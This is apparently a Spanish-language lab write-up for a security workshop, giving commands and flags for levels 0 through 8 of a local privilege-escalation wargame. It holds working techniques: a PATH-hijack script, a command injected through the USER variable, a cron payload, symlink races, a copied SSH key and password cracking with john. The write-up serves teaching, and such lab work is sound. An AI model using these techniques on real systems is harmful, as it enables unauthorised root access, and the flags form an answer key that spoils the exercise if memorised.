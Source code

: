 # Taller 6: Seguridad

## Nivel 0

```bash
find / -perm /u=s -exec ls -alh {} \; 2> /dev/null | grep flag00
/usr/bin/.../flag00
/bin/checkflag
```

**Flag: Que la fuerza te acompañe.**

## Nivel 1

Crear el archivo `/tmp/exploit` con el siguiente contenido:

```
#!/bin/bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/echo
chmod +x /tmp/echo
export PATH="/tmp:$PATH"
/home/flag01/flag01
```

Luego ejecutar:

```bash
chmod +x /tmp/exploit
/tmp/exploit
/bin/checkflag
```

**Flag: Son nuestras elecciones, Harry, las que muestran lo que somos, mucho más que nuestras habilidades.**

## Nivel 2

```bash
USER=';/bin/bash; echo' /home/flag02/flag02
/bin/checkflag
```

**Flag: Una cosa es cuestionar tu mente y otra es cuestionar tus ojos y oídos. ¿Pero acaso no es lo mismo?**

## Nivel 3

```bash
echo -e "#!/bin/bash\n/bin/checkflag > /tmp/flag" > /home/flag03/writable.d/exploit
chmod +x /home/flag03/writable.d/exploit
```

Esperamos que corra el cron, y luego en `/tmp/flag` tenemos el flag.

**Flag: Por favor, Hal, abre las puertas**

## Nivel 4

```bash
ln -s /home/flag04/token /home/nivel04/t
/home/flag04/flag04 /home/nivel04/t
```

**Flag: No existen preguntas sin respuestas, solo preguntas mal formuladas.**

## Nivel 5

```
tar xzvf /home/flag05/.backup/backup-19072011.tgz /tmp
ssh -o IdentityFile=/tmp/.ssh/id_rsa flag05@127.0.0.1 /bin/checkflag
```

Flag: ¿Carreteras? A donde vamos no necesitamos carreteras.

## Nivel 6

```bash
john --show /etc/passwd
```

Encuentra la clave del usuario flag06: `bandera`. Entrando como flag06 podemos ejecutar `/bin/checkflag`.

Flag: ¿Tienes miedo a morir? Entonces ya sabes lo que es ser un esclavo.

## Nivel 7

Veamos los privilegios otorgados con sudo para nuestro usuario.

```bash
sudo -l
```

Puntualmente nos interesa:

```
(flag07) /etc/init.d/chequea_bandera.sh
```

Podemos ejecutar ese script como el usuario flag07 usando sudo. Primero modificamos el script para que llame a `/bin/checkflag`. Luego ejecutamos el script como el usuario flag07:

```bash
sudo -u flag07 /etc/init.d/chequea_bandera.sh
```

**Flag: Por desgracia no se puede explicar lo que es Matrix. Tienes que verlo con tus propios ojos.**

## Nivel 8

Crear el siguiente script `exploit`:

```bash
#!/bin/bash

rm -rf /home/nivel08/token
touch /home/nivel08/token

ln -s -f /home/flag08/token /home/nivel08/token &
/home/flag08/flag08 /home/nivel08/token 127.0.0.1
```

En una terminal primero correr `nc` para escuchar en el puerto `18211`:

```bash
nc -l 18211
```

Luego en otra terminal correr el script:
```bash
./exploit
```

En la terminar que está corriendo `nc` obtenemos la clave del usuario flag08: `ceromasinfinito`. Entrando como flag08 podemos ejecutar `/bin/checkflag`.

**Flag: Hasta la vista, baby**
